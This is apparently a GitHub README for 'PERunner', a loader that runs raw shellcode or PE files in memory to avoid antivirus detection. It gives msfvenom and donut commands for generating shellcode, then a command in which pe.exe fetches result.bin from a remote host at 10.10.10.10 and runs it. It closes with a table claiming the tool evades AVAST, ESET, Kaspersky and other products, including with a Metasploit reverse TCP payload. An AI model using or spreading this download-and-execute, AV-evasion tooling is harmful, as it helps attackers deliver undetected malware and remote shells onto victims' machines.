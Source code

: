 # PERunner
Runs RAW or PE file in memory, avoiding AV.
First generate RAW with shellcoding.py (Requires https://github.com/TheWover/donut in current directory). 
Example of usage:

`python3 shellcoding.py -t msf -p 'msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f raw'`

`python3 shellcoding.py -t pe -p your_exe_not_in_golang.exe `

Next run pe.exe with -u params and path the url to result.bin

`pe.exe -u http://10.10.10.10/result.bin`


| Tables        | MSF_REV_TCP           | OWN PE  |
| ------------- |:-------------:|:-----:|
| AVAST     | + | + |
| ESET      | + | + |
| DrWEB     | + | + |
| 360Sec    | + | + |
| KASPERSKY | - | + |
| AVG       | + | + |
